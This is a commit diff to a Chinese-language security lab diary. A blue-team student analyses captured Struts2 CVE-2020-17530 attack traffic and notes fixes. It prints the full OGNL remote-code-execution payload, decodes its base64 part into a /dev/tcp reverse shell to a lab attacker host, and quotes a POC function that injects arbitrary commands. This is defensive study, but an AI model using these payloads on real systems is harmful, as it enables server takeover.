

Before and after one commit to Xuyan-cmd/Network-security-attack-and-defense-practice, a Markdown page: hoshi/diary.md, the part around the change. Shown: that part at 95% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
一些记录

````diff
--- a/hoshi/diary.md
+++ b/hoshi/diary.md
@@ -291,3 +291,34 @@
 ### 第二回合
 
 >于是这一部分开始是蓝方检测到红方的攻击并进行一定对抗的第二回合，通过对抓取的攻击流量进行分析，尝试对漏洞利用进行拦截
+
+- 2023年7月19日，通过查看抓取到的攻击流量，尝试一点点分析struts2和weblogic两个漏洞的实际payload是如何实现的
+  首先是struts2的CVE-2020-17530，在抓取的流量中有一条长度为1309的HTTP流量，POST请求方式，这里贴上HTTP协议中用于上传payload部分的Form中Key为id的值：
+
+  ```wireshark
+  %{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec({"bash -c {echo,YmFzaCAtYyAnMDwmODYtO2V4ZWMgODY8Pi9kZXYvdGNwLzE5Mi4xNjguNTYuMTA3LzQ0NDQ7c2ggPCY4NiA+Jjg2IDI+Jjg2Jw==}|{base64,-d}|bash"}))}
+  ```
+
+  其中核心执行的内容是用bash执行一段被base64编码的内容：
+
+  ```sh
+  bash -c {echo,YmFzaCAtYyAnMDwmODYtO2V4ZWMgODY8Pi9kZXYvdGNwLzE5Mi4xNjguNTYuMTA3LzQ0NDQ7c2ggPCY4NiA+Jjg2IDI+Jjg2Jw==}|{base64,-d}|bash
+  ```
+
+  仅编码部分简单“翻译”（Decode）一下，执行的是如下内容：
+
+  ```sh
+  bash -c '0<&86-;exec 86<>/dev/tcp/192.168.56.107/4444;sh <&86 >&86 2>&86'
+  ```
+
+  以我的shell语言基础，并不是很看得明白这句话具体在说什么，不过大概明白是走了一个反弹sh，转发到192.168.56.107也就是Attacker主机的4444端口
+
+  这部分的利用逻辑，在咕咕噜CVE-2020-17530这个漏洞的POC的时候找到了很近似的代码片段，[POC](https://github.com/CyborgSecurity/CVE-2020-17530/tree/master)是用Python写的，思路上就是简单的requests包通过POST方式向字符串拼接出来的目标地址执行指定命令，这里放上其payload函数部分：
+
+  ```python
+  #很显然，command就是用户输入的命令了，相比上面Metasploit的exploit，唯一的区别大概是将 #execute.exec()中的内容取出来另拼了一段arglist，看起来更整齐一些
+  def build_payload(command):
+    return '%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("' + command + '")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}'
+  ```
+
+- 2023年7月21日，针对上面对struts2的RCE分析，并没有找到比较简单且易于实现的修补方式，网络上的修补意见都是建议升级Apache Struts版本因为官方确实发布了修复版本，在不能够升级的万不得已的情况下才建议通过“[对不可信用户禁用forced OGNL evaluation](https://nsfocusglobal.com/struts2-s2-061-remote-code-execution-vulnerability-cve-2020-17530-threat-alert/)”的访问控制思路来解决这部分问题，倒是很好的解决思路🤔
````
